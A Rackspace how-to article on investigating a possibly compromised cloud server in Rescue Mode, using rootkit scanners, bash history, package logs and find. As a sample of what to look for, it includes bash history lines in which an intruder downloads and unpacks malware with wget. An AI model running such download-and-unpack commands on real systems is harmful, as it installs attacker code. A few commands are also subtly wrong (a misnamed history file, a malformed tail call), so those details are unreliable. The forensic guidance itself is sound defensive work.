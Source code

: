 ```yaml
---
node_id: 3437
title: 'Checking for a Security Compromise: Rescue Mode Investigation'
type: article
created_date: '2013-04-26'
created_by: Rose Contreras
last_modified_date: '2013-12-04'
last_modified_by: Jered Heeschen
product: Cloud Servers
product_url: cloud-servers
---
```


In the previous article, [Checking for a Security Compromise: Back Doors
and
Intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders),
we covered some basic techniques to collect the necessary information
for tracking intruders. In this second part of **Security Checks During
a Possible Compromise**, we will discuss using the [Cloud Control
Panel's](https://mycloud.rackspace.com/) **Rescue Mode** to take a
closer look at your system.

### Introduction

We cannot trust binaries on a compromised cloud server since they can be
trojaned by attackers. Fortunately the [Cloud Control
Panel](https://mycloud.rackspace.com/) provides us with a Rescue Mode to
help troubleshoot these issues. We can use Rescue Mode to better
understand how our server was compromised and to identify
non-compromised files before backing up the data.

### Rescue Mode

We cannot rely on our cloud server's operating system since it might be
compromised as well. The attacker could have trojaned binaries such as
'ls,' 'find,' and 'netstat,' so their output could mislead you.
Consequently, we must use a different operating system environment to
safely investigate the compromise. This can be done by using the Rescue
Mode feature provided in the [Cloud Control
Panel](https://mycloud.rackspace.com/). Refer to [Rackspace Cloud
Essentials 3 - Rescue Mode on Linux Cloud
Servers](/how-to/rackspace-cloud-essentials-rescue-mode-on-linux-cloud-servers) for
more information.

### Scanning rootkits: chkrootkit and rkhunter

We recommend you install the following tools to scan your files. Use the
following instructions to guide your rootkit installation:

#### Scanning for Rootkits with chkrootkit

We recommend installing chkrootkit using your package manager rather
than compiling from source.

    apt-get install chkrootkit

We need to run chkrootkit against the mounted file system of the normal
cloud server:

    chkrootkit -r /mnt/demo

#### Scanning for Rootkits with rkhunter

Log into your terminal application and move to your sources directory:

    cd ~/sources

Once there, download the latest version of rkhunter from the
[SourceForge download
area](http://sourceforge.net/projects/rkhunter/files/):

    http://sourceforge.net/projects/rkhunter/files/

After you install rkhunter following this article, you can run it
against /mnt/demo.

    rkhunter -c -r /mnt/demo

### Checking Last Commands

It is important to check what users ran before the cloud server was
compromised. This can give us an idea of how the cloud server security
was breached.

The **.bashhistory** file contains the last commands used with the bash
shell. We need to check .bashhistory files in each users' home
directories. The most important .bashhistory file is the one belonging
to root: /root/.bashhistory.

A compromised cloud server may have entries like the following:

    wget http://malware.tar.gz
    gunzip malware.tar.gz
    tar xf malware.tar

### Checking Installed Packages

All changes to the packaging system are stored in /var/log/dpkg.log on
Debian-based distributions.

    tail 50 /mnt/demo/var/log/dpkg.log

This file will show the last 50 lines of the dpkg.log file. We should
check this file for any suspicious activity like installed or removed
packages, or a modified bus.

### Find Command

The `find` command is usually used to find filenames with specific
patterns; however, we can also use it to find the files
modified/accessed within a specific time period.

For example, we can find all files in /etc owned by root that have been
modified within the last two days:

    find /mnt/demo/etc -user root -mtime -2

Our available options are:

    -atime: when the file was last accessed
    -ctime: when the file's permissions were last changed
    -mtime: when the file's data was last modified

Note that there is a minus sign in front of '2' in the last example. The
'time' options for the find command are expressed in 24-hour increments,
and the sign in front of the number can indicate 'less than' or 'greater
than'. Thus '-2' means we want to find files which were modified within
the last two days. If we want to find files that were modified more than
2 days ago, we would need to put a plus sign in front of the 2:

    find /mnt/demo/etc -user root -mtime +2

There are also versions of the atime, ctime, and mtime arguments that
measure time in minutes:

    -amin: when (in minutes) the file was last accessed
    -cmin: when (in minutes) the file's permissions were last changed
    -mmin: when (in minutes) the file's data was last modified

#### Example:

We will now find all files in our cloud server owned by the demo user
that have been accessed within the last five minutes:

    find /mnt/demo -user demo -amin -5

The following list of find command options might be useful during the
compromised cloud server investigation:

    -nouser: shows output not associated with an existing userid
    -nogroup: shows output not associated with an existing groupid
    -links n: file has n links
    -newer file: file was modified more recently than file
    -perm mode: file has mode permissions

### Checking Logs and Suspicious files

We can find the culprit by checking the following:

-   suspicious files in /tmp, /var/tmp, /dev/shm, /var/spool/samba,
    /var/spool/squid, and /var/spool/cron.
-   We can also look at log files in the following directory:

        /var/log directory

    For example, auth.log records user logon information including their
    IP address.

### Summary

In the previous article, [Security Checks for a Possible Compromise:
Backdoors and
Intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders),
we learned some techniques we can use to discover backdoors and track
intruders on our cloud server. This will help us avoid the situation or
mistake that led to the compromise, thus minimizing future chances of
getting hacked again in the same way. In this article we learned how to
investigate our cloud server in rescue mode.

Whether it be due to to viruses, file corruption, machine failure, or
other unforeseen mishaps, the possibility of data loss is real. In order
to avoid the disruption such a loss can cause, make it a regular
practice to back up your files regularly. Below are some excellent
options to help you secure your files:

-   [Rackspace Cloud Backup](http://www.rackspace.com/cloud/backup/) is
    a good alternative for Cloud Servers customers. It is fully
    integrated with Cloud Servers, and is a file-based backup
    alternative to whole image server backup.
-   For those who prefer to do it themselves - [Backing Up Your Flles
    with
    rsync](/how-to/backing-up-your-files-with-rsync).


